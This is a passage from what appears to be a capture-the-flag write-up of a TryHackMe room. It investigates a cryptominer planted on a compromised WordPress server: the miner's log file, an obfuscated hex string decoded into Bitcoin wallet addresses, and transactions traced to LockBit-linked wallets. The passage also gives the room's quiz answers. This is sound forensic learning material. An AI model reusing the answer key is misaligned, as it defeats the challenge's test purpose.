-rwxr-xr-x   1 root root   14712 Feb 16  2024 nm-dhcp-helper
-rwxr-xr-x   1 root root   47672 Feb 16  2024 nm-dispatcher
-rwxr-xr-x   1 root root  843048 Feb 16  2024 nm-iface-helper
-rwxr-xr-x   1 root root 6948448 Apr  8  2024 nm-inet-dialog
-rwxr-xr-x   1 root root  658736 Feb 16  2024 nm-initrd-generator
-rwxr-xr-x   1 root root   27024 Mar 11  2020 nm-openvpn-auth-dialog
-rwxr-xr-x   1 root root   59784 Mar 11  2020 nm-openvpn-service
-rwxr-xr-x   1 root root   31032 Mar 11  2020 nm-openvpn-service-openvpn-helper
-rwxr-xr-x   1 root root   51416 Nov 27  2018 nm-pptp-auth-dialog
-rwxr-xr-x   1 root root   59544 Nov 27  2018 nm-pptp-service
drwxr-xr-x   2 root root    4096 Nov 27  2021 system-connections
```

Ok so we have a lot of stuff here. After looking around, the first file that could be a log file to me was the `inet.conf` one.

So I checked it’s content.

```bash
(remote) apache@tryhackme:/lib/NetworkManager$ head -n 25 inet.conf
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:46:04,743 [*] confbak: Ready!
2024-04-08 10:46:04,743 [*] Status: Mining!
2024-04-08 10:46:08,745 [*] Miner()
2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
2024-04-08 10:46:08,745 [*] Status: Mining!
2024-04-08 10:46:10,747 [*] Miner()
2024-04-08 10:46:12,748 [*] Miner()
2024-04-08 10:46:14,751 [*] Miner()
2024-04-08 10:46:16,753 [*] Miner()
2024-04-08 10:46:18,755 [*] Miner()
2024-04-08 10:46:20,757 [*] Miner()
2024-04-08 10:46:22,760 [*] Miner()
2024-04-08 10:46:24,762 [*] Miner()
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:48:04,647 [*] confbak: Ready!
2024-04-08 10:48:04,648 [*] Status: Mining!
2024-04-08 10:48:08,649 [*] Miner()
2024-04-08 10:48:08,649 [*] Bitcoin Miner Thread Started
2024-04-08 10:48:08,649 [*] Status: Mining!
2024-04-08 10:48:10,651 [*] Miner()
2024-04-08 10:48:12,653 [*] Miner()
2024-04-08 10:48:14,656 [*] Miner()
2024-04-08 10:48:16,656 [*] Miner()
2024-04-08 10:48:18,659 [*] Miner()
```

By its content, we guess it’s this file that is used as a log file.

I tried to enter its name and yes ! This is the file.

## Q4 answer

The answer is `inet.conf` .

## Q5 : What is the wallet address of the miner instance ?

Here we need to find a Bitcoin wallet address. You may have noticed the long string inside the previous file. But I didn't pay attention to it.

In fact it is an obfuscated string (I took note of that !).

Simple definition of data obfuscation found on the Internet : Data obfuscation is a process used to hide sensitive information within data to prevent unauthorized access.

So you got it we need to deobfuscate this string. Let’s try to do this using Cyberchef !



**Note : The Magic operation attempts to detect various properties of the input data and suggests which operations could help to make more sense of it. (Source : Cyberchef)**

Using the **Magic** function of Cyberchef we managed to get an interesting result.

Result : bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa

If you take a close look at the result you will found that we managed to retrieve not only one Bitcoin address but 2 !

- First address : `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
- Second addres : `bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`

Now how to know which one is the answer ? Well here we only have 2 addresses so you can just try both of them and see which one is it.

Nevertheless, we can also check the validity of an address using a Bitcoin wallet lookup website.

For example, using https://www.blockonomics.co we get the following result



For the second one you’ll get  the following error message : 

`Invalid BTC Address bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa` 

## Q5 answer

The answer is `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

## Q6 : The wallet address used has been involved in transactions between wallets belonging to which threat group ?

To anwser this question we’ll follow the next steps :

- Retrieve past transactions using the previous website ([https://www.blockonomics.co](https://www.blockonomics.co/))
- Check for suspicious amount
- Check to which wallet address the transaction was destinated
- Search about the destination address

On the previous screenshot, we can see a huge transaction has been made on the 12th May 2023.

Checking the ouput addresses we get :

- `bc1q4xh8cmyp5e4cus660ah2jv3ja8pg7fgml8lj3g`
- `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM`

Searching about the first one didn’t give me anything interesting, whereas the second one gave me the following articles :

- First one is from the US departement of treasury :
    - https://ofac.treasury.gov/recent-actions/20240220
- And the second one is a from the Chainanalysis website :
    - https://www.chainalysis.com/blog/lockbit-takedown-sanctions-february-2024/

Both mention the name of a ransomware group named **LockBit** !

## Q6 answer

The answer is **Lockbit.**
Perfect we finished the room ! Congrats !

## Summary

This room was about exploiting a vulnerable Wordpress website via a Wordpress plugin/theme (Bricks). After gaining an RCE on the target machine we got creds, (useless to the challenge by the way), we also had to find a suspicious process (definetly a cryptominer malware) and investigate about it (logs, Bitcoin wallet address, searching about wallet addresses).

Through this room, I understood how easily certain vulnerabilities can be exploited especially when using a vulnerable service/plugin. It also helped me to get more practical knowledge in Web Penetration testing (Wordpress atleast).

## Acknowledgements

If you’ve made it this far — thank you! Sharing knowledge is what makes the CTF community truly awesome.

I hope this write-up was helpful or at least interesting. And remember:

<div align="center">
    <i>Every vulnerability is a lesson in disguise — the more we break, the more we understand how to build.</i>
</div>